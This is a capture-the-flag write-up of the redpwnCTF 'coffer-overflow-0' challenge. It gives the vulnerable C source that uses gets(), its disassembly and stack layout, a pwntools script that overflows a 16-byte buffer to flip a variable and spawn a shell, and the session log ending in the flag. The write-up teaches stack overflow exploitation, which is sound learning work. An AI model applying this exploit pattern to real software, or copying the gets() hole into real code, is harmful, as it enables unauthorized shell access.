

# coffer-overflow-0
[](https://shields.io/)

# Challenge


# Pwn

The c code is:

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code != 0) {
    system("/bin/sh");
  }
}
```

It uses the vulnerable function `gets`. The objective is to overflow the buffer of `name` to overwrite the variable `code` in the stack frame of the main function.

```assembly
Dump of assembler code for function main:
   0x0000000000400677 <+0>:     push   rbp
   0x0000000000400678 <+1>:     mov    rbp,rsp
   0x000000000040067b <+4>:     sub    rsp,0x20
   0x000000000040067f <+8>:     mov    QWORD PTR [rbp-0x8],0x0  ; initialize 'code' with 0
   0x0000000000400687 <+16>:    mov    rax,QWORD PTR [rip+0x2009d2]        # 0x601060 <stdout@@GLIBC_2.2.5>
   0x000000000040068e <+23>:    mov    esi,0x0
   0x0000000000400693 <+28>:    mov    rdi,rax
   0x0000000000400696 <+31>:    call   0x400560 <setbuf@plt>
   0x000000000040069b <+36>:    mov    rax,QWORD PTR [rip+0x2009ce]        # 0x601070 <stdin@@GLIBC_2.2.5>
   0x00000000004006a2 <+43>:    mov    esi,0x0
   0x00000000004006a7 <+48>:    mov    rdi,rax
   0x00000000004006aa <+51>:    call   0x400560 <setbuf@plt>
   0x00000000004006af <+56>:    mov    rax,QWORD PTR [rip+0x2009ca]        # 0x601080 <stderr@@GLIBC_2.2.5>
   0x00000000004006b6 <+63>:    mov    esi,0x0
   0x00000000004006bb <+68>:    mov    rdi,rax
   0x00000000004006be <+71>:    call   0x400560 <setbuf@plt>
   0x00000000004006c3 <+76>:    lea    rdi,[rip+0xce]        # 0x400798
   0x00000000004006ca <+83>:    call   0x400550 <puts@plt>
   0x00000000004006cf <+88>:    lea    rdi,[rip+0x112]        # 0x4007e8
   0x00000000004006d6 <+95>:    call   0x400550 <puts@plt>
   0x00000000004006db <+100>:   lea    rax,[rbp-0x20]  ; gets() stores the input starting from rbp-0x20
   0x00000000004006df <+104>:   mov    rdi,rax
   0x00000000004006e2 <+107>:   call   0x400580 <gets@plt>
   0x00000000004006e7 <+112>:   cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004006ec <+117>:   je     0x4006ff <main+136>
   0x00000000004006ee <+119>:   lea    rdi,[rip+0x11e]        # 0x400813
   0x00000000004006f5 <+126>:   mov    eax,0x0
   0x00000000004006fa <+131>:   call   0x400570 <system@plt>
   0x00000000004006ff <+136>:   mov    eax,0x0
   0x0000000000400704 <+141>:   leave
   0x0000000000400705 <+142>:   ret
```

The stack frame is:

```
Address           Stack
             /-------------\    
rbp-0x20     |  name[16]   | <- rsp
             |             |
             :             :
             |             |
             +-------------+
rbp-0x8      |  code = 0   |
             |             |
             :             :
             |             |
             +-------------+
rbp          |             | <- rbp
```
`name` occupies just 16 bytes (until `rbp-0x10`) but for stack alignment `code` is stored starting from `rbp-0x8` and occupies 8 bytes because it is a **long** (QWORD).

From the python3 terminal:

```python
>>>from pwn import *
>>>ELF('./coffer-overflow0')

[*] '/root/coffer-overflow-0/coffer-overflow-0'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

There is **no canary** so it is possible to overflow the variable `name` and overwrite `code`.

The exploit is:

```python
from pwn import *

context.log_level = 'debug'

#p = process('./coffer-overflow-0')
p = remote('2020.redpwnc.tf', 31199)

code = p64(1)  # set a long variable (8 bytes) to 1
name = bytes('a'*(0x20-0x8), 'utf-8')  # set 24 (0x18) bytes to 'a' -> overwrite name array
payload = name + code

p.sendlineafter('What do you want to fill your coffer with?', payload)
p.interactive()
```

Running the script on the remote process I obtained the following output:

```bash
root@DESKTOP-8NAFLOJ:~/coffer-overflow-0# python3 exploit.py
[+] Opening connection to 2020.redpwnc.tf on port 31199: Done
[DEBUG] Received 0x4b bytes:
    b'Welcome to coffer overflow, where our coffers are overfilling with bytes ;)'
[DEBUG] Received 0x2c bytes:
    b'\n'
    b'What do you want to fill your coffer with?\n'
[DEBUG] Sent 0x21 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    00000010  61 61 61 61  61 61 61 61  01 00 00 00  00 00 00 00  │aaaa│aaaa│····│····│
    00000020  0a                                                  │·│
    00000021
[*] Switching to interactive mode

$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x50 bytes:
    b'Makefile\n'
    b'bin\n'
    b'coffer-overflow-0\n'
    b'coffer-overflow-0.c\n'
    b'dev\n'
    b'flag.txt\n'
    b'lib\n'
    b'lib32\n'
    b'lib64\n'
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x22 bytes:
    b'flag{b0ffer_0verf10w_3asy_as_123}\n'
flag{b0ffer_0verf10w_3asy_as_123}
```

## Flag
`flag{b0ffer_0verf10w_3asy_as_123}`